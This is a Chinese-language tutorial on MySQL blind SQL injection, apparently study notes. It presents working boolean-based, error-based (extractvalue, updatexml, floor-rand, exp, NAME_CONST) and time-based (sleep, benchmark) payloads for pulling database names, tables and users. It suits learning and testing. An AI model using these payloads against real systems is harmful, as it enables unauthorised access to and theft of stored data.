 # SQL盲注基础知识
## 基于布尔SQL盲注----------构造逻辑判断
**Sql注入截取字符串常用函数**

三大法宝：mid(),substr(),left()

**mid()函数**

此函数为截取字符串一部分。MID(column_name,start[,length])  
column_name：必需。要提取字符的字段。  
start：必需。规定开始位置（起始值是 1）。  
length：可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本。  
Eg:      str="123456"     mid(str,2,1)    结果为2  
Sql用例：  
>（1）MID(DATABASE(),1,1)>’a’,查看数据库名第一位，MID(DATABASE(),2,1)查看数据库名第二位，依次查看各位字符。  
>（2）MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>’a’此处column_name参数可以为sql语句，可自行构造sql语句进行注入。  

 **substr()函数**  
   Substr()和substring()函数实现的功能是一样的，均为截取字符串。  
   + string substring(string, start, length)
   + string substr(string, start, length)

参数描述同mid()函数，第一个参数为要处理的字符串，start为开始位置，length为截取的长度。  
Sql用例：  
>(1) substr(DATABASE(),1,1)>’a’,查看数据库名第一位，substr(DATABASE(),2,1)查看数据库名第二位，依次查看各位字符。  
>(2) substr((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>’a’此处string参数可以为sql语句，可自行构造sql语句进行注入。  

**Left()函数**
Left()得到字符串左部指定个数的字符  
Left ( string, n )        string为要截取的字符串，n为长度。  
Sql用例：  

>(1) left(database(),1)>’a’,查看数据库名第一位，left(database(),2)>’ab’,查看数据库名前二位。  
>(2) 同样的string可以为自行构造的sql语句。

同时也要介绍 **ORD()** 函数，此函数为返回第一个字符的ASCII码，经常与上面的函数进行组合使用。
例如ORD(MID(DATABASE(),1,1))>114 意为检测database()的第一位ASCII码是否大于114，也即是‘r’
类似的还有**ascii()函数**：  
`ascii(substr((select table_name from information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+ `   
//substr()函数，ascii()函数  
Explain：substr(a,b,c)从b位置开始，截取字符串a的c长度。Ascii()将某个字符转换为ascii值  
**▲ascii(substr((select database()),1,1))=98**  
**▲regexp正则注入**  

正则注入介绍：http://www.cnblogs.com/lcamry/articles/5717442.html  
用法介绍：select user() regexp '^[a-z]';  
Explain：正则表达式的用法，user()结果为root，regexp为匹配root的正则表达式。  
第二位可以用`select user() regexp '^ro'`来进行。  

当正确的时候显示结果为1，不正确的时候显示结果为0.  
示例介绍：  
>select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));  
>select * from users where id=1 and 1=(user() regexp'^ri');

通过if语句的条件判断，返回一些条件句，比如if等构造一个判断。根据返回结果是否等于0或者1进行判断。  
`select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);`

这里利用select构造了一个判断语句。我们只需要更换regexp表达式即可  
`'^u[a-z]' -> '^us[a-z]' -> '^use[a-z]' -> '^user[a-z]' -> FALSE`

如何知道匹配结束了？这里大部分根据一般的命名方式（经验）就可以判断。但是如何你在无法判断的情况下，可以用table_name regexp '^username$'来进行判断。^是从开头进行匹配，$是从结尾开始判断。更多的语法可以参考mysql使用手册进行了解。  
好，这里思考一个问题，table_name有好几个，我们只得到了一个user，如何知道其他的？  
这里可能会有人认为使用limit 0，1改为limit 1,1。  
但是这种做法是错误的，limit作用在前面的select语句中，而不是regexp。那我们该如何选择。其实在regexp中我们是取匹配table_name中的内容，只要table_name中有的内容，我们用regexp都能够匹配到。因此上述语句不仅仅可以选择user，还可以匹配其他项。即，table_name中包含了所有的表名，除了匹配到user表之外，还可以继续匹配其他表，只需更改匹配规则即可。

**▲like匹配注入**  
和上述的正则类似，mysql在匹配的时候我们可以用ike进行匹配。  
用法：select user() like ‘ro%’  

## 基于报错的SQL盲注------构造payload让信息通过错误提示回显出来
**▲floor  rand  group by**  
`Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;  `   

//explain:此处有三个点，一是需要concat计数，二是floor，取得0 or 1，进行数据的重复，三是group by进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时重复造成的错误。也有解释为mysql 的bug 的问题。但是此处需要将rand(0)，rand()需要多试几次才行。  
以上语句可以简化成如下的形式。    
`select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))`

如果关键的表被禁用了，可以使用这种形式  
`select count(*) from (select 1 union select null union select !1) group by concat(version(),floor(rand(0)*2))`  

如果rand被禁用了可以使用用户变量来报错  
`select min(@a:=1) from information_schema.tables group by concat(user(),@a:=(@a+1)%2)`

用户变量：以"@"开始，形式为"@变量名"。用户变量跟mysql客户端是绑定的，设置的变量，只对当前用户使用的客户端生效

```
mysql> SELECT @t1:=(@t2:=1)+@t3:=4,@t1,@t2,@t3;
+----------------------+------+------+------+
| @t1:=(@t2:=1)+@t3:=4 | @t1  | @t2  | @t3  |
+----------------------+------+------+------+
|                    5 | 5    | 1    | 4    |
+----------------------+------+------+------+
```

解释：@t2:=1 给t2赋值为1，@t3:=4 给t3赋值为4，两这个相加后赋值给t1.  
▲select exp(~(select * FROM(SELECT USER())a))         //double数值类型超出范围  
 //Exp()为以e为底的对数函数；版本在5.5.5及其以上  
可以参考exp报错文章：http://www.cnblogs.com/lcamry/articles/5509124.html  

▲select !(select * from (select user())x) -（ps:这是减号） ~0  
//bigint超出范围；~0是对0逐位取反，很大的版本在5.5.5及其以上  
可以参考文章bigint溢出文章http://www.cnblogs.com/lcamry/articles/5509112.html  

▲extractvalue(1,concat(0x7e,(select @@version),0x7e))  se//mysql对xml数据进行查询和修改的xpath函数，xpath语法错误  
**ExtractValue(xml_str , Xpath)** 函数,使用Xpath表示法从XML格式的字符串中提取一个值  
**ExtractValue()**  函数中任意一个参数为NULL,返回值都是NULL.  
如果我们构造了不符合规定的Xpath,MySQL就会报语法错误,并显示XPath的内容.  
报错会从遇到的第一个特殊字符处开始报错.直到结束.但是报错的长度是有限制的.  

MariaDB [information_schema]> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
ERROR 1105 (HY000): XPATH syntax error: '\~10.1.9-MariaDB\~'

**▲updatexml(1,concat(0x7e,(select @@version),0x7e),1)**   //mysql对xml数据进行查询和修改的xpath函数，xpath语法错误  
**▲select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;**  
//mysql重复特性，此处重复了version，所以报错。  
好像只有version()函数才可以使用，其他如user()等会报不正确的参数错误，函数不能执行。  
>NAME_CONST(name,value)  
Returns the given value. When used to produce a result set column, NAME_CONST() causes the column to have the given name. The arguments should be constants.
```
mysql> SELECT NAME_CONST('myname', 14);
+--------+
| myname |
+--------+
|     14 |
+--------+ 
```

## 基于时间的SQL盲注----------延时注入  
**▲If(ascii(substr(database(),1,1))>115,0,sleep(5))%23**           //if判断语句，条件为假，执行sleep  
**▲UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE(‘MSG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;**   

//BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。推荐使用sleep()

本文参考SQL注入天书系列文章。
